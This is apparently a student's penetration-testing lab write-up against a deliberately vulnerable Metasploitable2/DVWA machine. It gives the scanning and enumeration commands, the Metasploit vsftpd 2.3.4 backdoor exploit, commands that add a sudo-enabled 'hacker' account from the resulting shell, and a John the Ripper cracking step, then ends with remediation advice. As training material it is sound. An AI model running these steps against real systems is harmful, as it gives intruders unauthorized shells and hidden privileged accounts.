 # 🛡️ Penetration Testing and Remediation on a Target System

# 🎯 OBJECTIVES -
To conduct a structured penetration test using ethical hacking techniques on a deliberately vulnerable virtual machine. The objective is to simulate a real-world attack scenario and then provide recommendations for remediation.

# 💻 LAB ENVIRONMENT -
Component         -  Details
Attacker Machine  -  Kali Linux (Latest Version)
Target Machine    -  Metasploitable2 / DVWA
Network Type      -  Host-Only or NAT (VMware/VirtualBox)
Target IP         -  192.168.56.101 (example)

# 🚀 TASK PERFORMED –
# 🔍 Task 1: Basic Network Scanning
Purpose: Identify open and potentially vulnerable ports and services.
Command:
nmap -sS -sV -T4 -Pn 192.168.56.101
Expected Output:
PORT    STATE  SERVICE  VERSION
21/tcp  open   ftp      vsftpd 2.3.4
22/tcp  open   ssh      OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
Open Services Analysis:
FTP (21): Unauthenticated access or vulnerable versions.
SSH (22): Brute-force potential.

# 🕵️‍♀️ Task 2: Reconnaissance
Purpose: To identify web-based vulnerabilities and sensitive files.
Command:
nikto -h http://192.168.56.101
Expected Output:
+ Server: Apache/2.2.8 (Ubuntu)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
# 🔐 Hidden Services Example:
phpinfo.php: Often left during development.
/test/ or /backup/ folders may contain credentials or outdated code.
# 🛠️ Extra Tool:
dirb http://192.168.56.101

# 📝 Task 3: Enumeration Summary
Purpose: To gather detailed information about services, users, and shares.
Command (Samba Enumeration):
enum4linux -a 192.168.56.101
Expected Output:
Users: admin, user1, guest
Shares: IPC$, ADMIN$, Public, tmp
Machine Name: METASPLOITABLE

# 💥Task 4: Exploitation of Services
Exploit Example: vsftpd 2.3.4 Backdoor
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
run
Expected Output:
Backdoor service has been spawned.
Command shell session 1 opened (192.168.56.102:4444 -> 192.168.56.101:6200)

# 👤 Task 5: Creating A Privileged User
Command inside Shell:
useradd -m hacker
echo 'hacker:hacked123' | chpasswd
usermod -aG sudo hacker
Expected Output:
uid=1001(hacker) gid=1001(hacker) groups=1001(hacker),27(sudo)

# 🥷 Task 6: Cracking Password Hash
Command:
Crack Using John:
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Expected Output:
hacked123 (hacker)

# 🔧 Task 7: Remediation And Recommendations
Issue                               Risk                       Recommendation
vsftpd 2.3.4 with backdoor          Remote shell access        Disable FTP or update to latest 
                                                               version
Web server exposes /phpinfo.php     Sensitive info disclosure  Remove or restrict access
Default users found via enum4linux  Easy brute-force           Remove or rename default 
                                                               account 
Weak password found                 Easy to crack              Use strong, complex passwords

# 📚 Conclusion
This project demonstrated a typical penetration testing workflow including scanning, enumeration, exploitation, and remediation planning. The vulnerabilities identified are common in many legacy or misconfigured systems and serve as practical learning examples for both aspiring ethical hackers and defenders.

# ⚠️ Disclaimer
This project is strictly for educational purposes. All activities were conducted in a closed virtual environment with no access to external or live systems.
